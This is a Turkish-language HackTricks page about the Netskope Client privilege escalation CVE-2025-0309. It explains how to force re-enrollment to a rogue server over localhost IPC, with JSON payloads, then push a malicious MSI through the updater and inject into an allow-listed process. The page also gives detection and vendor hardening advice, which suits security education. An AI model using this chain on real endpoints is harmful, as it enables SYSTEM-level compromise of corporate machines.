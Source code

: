 # Abusing Enterprise Auto-Updaters and Privileged IPC (e.g., Netskope stAgentSvc)

{{#include ../../banners/hacktricks-training.md}}

Bu sayfa, düşük sürtünmeli bir IPC yüzeyi ve ayrıcalıklı bir update akışı açığa çıkaran kurumsal endpoint agentları ve updateler içinde bulunan Windows local privilege escalation zincirleri sınıfını genelleştirir. Temsilî bir örnek, düşük ayrıcalıklı bir kullanıcının enrollment'ı bir saldırgan kontrolündeki sunucuya zorlayabildiği ve ardından SYSTEM servisinin kurduğu kötü amaçlı bir MSI teslim edebildiği Netskope Client for Windows < R129 (CVE-2025-0309)′dır.

Yeniden kullanabileceğiniz ana fikirler:
- Bir privileged servisinin localhost IPC'sini, re‑enrollment veya yeniden yapılandırmayı saldırgan sunucuya zorlamak için kötüye kullanın.
- Vendor’ın update endpointlerini implemente edin, rogue Trusted Root CA teslim edin ve updater'ı kötü amaçlı, “signed” pakete yönlendirin.
- Zayıf signer kontrollerinden (CN allow‑lists), opsiyonel digest flag'lerden ve gevşek MSI properties'den kaçının.
- IPC “encrypted” ise, registry'de saklanan world‑readable makine tanımlayıcılarından key/IV türetin.
- Servis çağıranları image path/process name ile sınırlandırıyorsa, allow‑listed bir process'e inject edin veya bir tane suspended olarak spawn edip DLL'inizi minimal bir thread‑context patch ile bootstrap edin.

---
## 1) Forcing enrollment to an attacker server via localhost IPC

Birçok agent, SYSTEM servisine localhost TCP üzerinden JSON konuşan bir user‑mode UI process ile gelir.

Netskope'de gözlemlendi:
- UI: stAgentUI (low integrity) ↔ Service: stAgentSvc (SYSTEM)
- IPC command ID 148: IDP_USER_PROVISIONING_WITH_TOKEN

Exploit flow:
1) Backend host'u (ör. AddonUrl) kontrol eden claim'lere sahip bir JWT enrollment token'ı craft edin. Alg olarak alg=None kullanın, böylece imza gerekmez.
2) JWT ve tenant adı ile provisioning komutunu çağıran IPC mesajını gönderin:
```json
{
"148": {
"idpTokenValue": "<JWT with AddonUrl=attacker-host; header alg=None>",
"tenantName": "TestOrg"
}
}
```
3) Servis, enrollment/config için sahte sunucunuza istek göndermeye başlar, ör.:
- /v1/externalhost?service=enrollment
- /config/user/getbrandingbyemail

Notlar:
- Eğer caller verification path/name‑based ise, isteği allow‑listed vendor binary'den başlatın (see §4).

---
## 2) Hijacking the update channel to run code as SYSTEM

İstemci sunucunuzla iletişim kurduktan sonra, beklenen endpoint'leri uygulayın ve onu saldırgan MSI'ye yönlendirin. Tipik sıra:

1) /v2/config/org/clientconfig → Çok kısa bir güncelleme aralığı içeren JSON konfigürasyonu döndürün, örn.:
```json
{
"clientUpdate": { "updateIntervalInMin": 1 },
"check_msi_digest": false
}
```
2) /config/ca/cert → Bir PEM CA sertifikası döndürür. Servis bunu Local Machine Trusted Root store into yükler.
3) /v2/checkupdate → Zararlı bir MSI'ya ve sahte bir sürüme işaret eden metadata sağlar.

Bypassing common checks seen in the wild:
- Signer CN allow‑list: servis sadece Subject CN'nin “netSkope Inc” veya “Netskope, Inc.” olup olmadığını kontrol ediyor olabilir. Sizin sahte CA'nız bu CN ile bir leaf verebilir ve MSI'yı imzalayabilir.
- CERT_DIGEST property: CERT_DIGEST adlı zararsız bir MSI özelliği ekleyin. Kurulum sırasında uygulanmıyor.
- Optional digest enforcement: config flag (ör. check_msi_digest=false) ekstra kriptografik doğrulamayı devre dışı bırakır.

Sonuç: SYSTEM servisi MSI'nızı
C:\ProgramData\Netskope\stAgent\data\*.msi
konumundan kurar ve NT AUTHORITY\SYSTEM olarak rastgele kod çalıştırır.

---
## 3) Forging encrypted IPC requests (when present)

R127'den itibaren, Netskope IPC JSON'u Base64 benzeri görünen encryptData alanına sarmıştı. Tersine mühendislik AES ve anahtar/IV'in herhangi bir kullanıcı tarafından okunabilen registry değerlerinden türetildiğini gösterdi:
- Key = HKLM\SOFTWARE\NetSkope\Provisioning\nsdeviceidnew
- IV  = HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProductID

Saldırganlar şifrelemeyi yeniden üretebilir ve standart bir kullanıcıdan geçerli şifreli komutlar gönderebilir. Genel ipucu: bir agent aniden IPC'sini “şifreliyorsa”, HKLM altında device ID'ler, product GUID'leri, install ID'ler gibi materyallere bakın.

---
## 4) Bypassing IPC caller allow‑lists (path/name checks)

Bazı servisler TCP bağlantısının PID'sini çözerek eş tarafı authenticate etmeye çalışır ve image path/name'i Program Files altında bulunan izinli vendor ikili dosyalarla (ör. stagentui.exe, bwansvc.exe, epdlp.exe) karşılaştırır.

İki pratik bypass:
- izinli bir süreçe (ör. nsdiag.exe) DLL injection yapıp IPC'yi içinden proxy'leyin.
- izinli bir ikiliyi suspended olarak spawn edin ve CreateRemoteThread kullanmadan proxy DLL'inizi bootstrap ederek driver‑enforced tamper kurallarını sağlayın (bkz §5).

---
## 5) Tamper‑protection friendly injection: suspended process + NtContinue patch

Ürünler genelde protected süreçlere ait handle'lardan tehlikeli hakları temizlemek için bir minifilter/OB callbacks driver ile gelir (ör. Stadrv):
- Process: PROCESS_TERMINATE, PROCESS_CREATE_THREAD, PROCESS_VM_READ, PROCESS_DUP_HANDLE, PROCESS_SUSPEND_RESUME haklarını kaldırır
- Thread: THREAD_GET_CONTEXT, THREAD_QUERY_LIMITED_INFORMATION, THREAD_RESUME, SYNCHRONIZE ile sınırlı tutar

Bu kısıtlamalara saygı gösteren güvenilir bir user‑mode loader:
1) Vendor ikili dosyasını CREATE_SUSPENDED ile CreateProcess edin.
2) Hâlâ almanıza izin verilen handle'ları edinin: process için PROCESS_VM_WRITE | PROCESS_VM_OPERATION ve bir thread handle'ı için THREAD_GET_CONTEXT/THREAD_SET_CONTEXT (veya bilinen bir RIP'te kodu patchliyorsanız sadece THREAD_RESUME).
3) ntdll!NtContinue (veya başka erken, garantiyle map edilmiş thunk) üzerine küçük bir stub yazın; bu stub DLL yolunuzda LoadLibraryW çağırıp sonra geri zıplasın.
4) ResumeThread ile stub'unuzun in‑process tetiklenmesini sağlayın ve DLL'inizi yükleyin.

Zaten korunmuş bir süreç üzerinde PROCESS_CREATE_THREAD veya PROCESS_SUSPEND_RESUME kullanmadığınız için (süreci siz oluşturdunuz), driver politikası sağlanmış olur.

---
## 6) Practical tooling
- NachoVPN (Netskope plugin) sahte CA, zararlı MSI imzalama sürecini otomatikleştirir ve gerekli endpoint'leri sunar: /v2/config/org/clientconfig, /config/ca/cert, /v2/checkupdate.
- UpSkope, isteğe bağlı olarak AES‑şifreli olabilen rastgele IPC mesajları üreten ve izinli bir ikili üzerinden kökenlenmesi için suspended‑process injection içeren özel bir IPC client/exploit'tir.

---
## 7) Detection opportunities (blue team)
- Local Machine Trusted Root'a eklemeleri izleyin. Sysmon + registry‑mod eventing (bkz SpecterOps guidance) iyi çalışır.
- Ajan servisi tarafından C:\ProgramData\<vendor>\<agent>\data\*.msi gibi yollarından başlatılan MSI çalıştırmalarını işaretleyin.
- Beklenmeyen enrollment host/tenant'lar için ajan loglarını inceleyin, örn: C:\ProgramData\netskope\stagent\logs\nsdebuglog.log – addonUrl / tenant anomalilerine ve provisioning msg 148'e bakın.
- Beklenen imzalı ikililer olmayan veya sıra dışı child process tree'lerinden gelen localhost IPC client'ları için alarm oluşturun.

---
## Hardening tips for vendors
- Enrollment/update host'larını sıkı bir allow‑list'e bağlayın; client code içinde güvenilmeyen domainleri reddedin.
- IPC peer'lerini image path/name kontrolleri yerine OS primitifleriyle authenticate edin (ALPC security, named‑pipe SIDs).
- Gizli materyalleri world‑readable HKLM'de tutmayın; eğer IPC şifrelenmek zorundaysa anahtarları protected secret'lardan türetin veya authenticated kanallarda müzakere edin.
- Updater'ı bir supply‑chain yüzeyi olarak değerlendirin: kontrol ettiğiniz güvenilir bir CA'ya tam zincir gerektirin, paket imzalarını pinned key'lere karşı doğrulayın ve config'te doğrulama devre dışıysa kapatın (fail closed).

## References
- [Advisory – Netskope Client for Windows – Local Privilege Escalation via Rogue Server (CVE-2025-0309)](https://blog.amberwolf.com/blog/2025/august/advisory---netskope-client-for-windows---local-privilege-escalation-via-rogue-server/)
- [NachoVPN – Netskope plugin](https://github.com/AmberWolfCyber/NachoVPN)
- [UpSkope – Netskope IPC client/exploit](https://github.com/AmberWolfCyber/UpSkope)
- [NVD – CVE-2025-0309](https://nvd.nist.gov/vuln/detail/CVE-2025-0309)

{{#include ../../banners/hacktricks-training.md}}
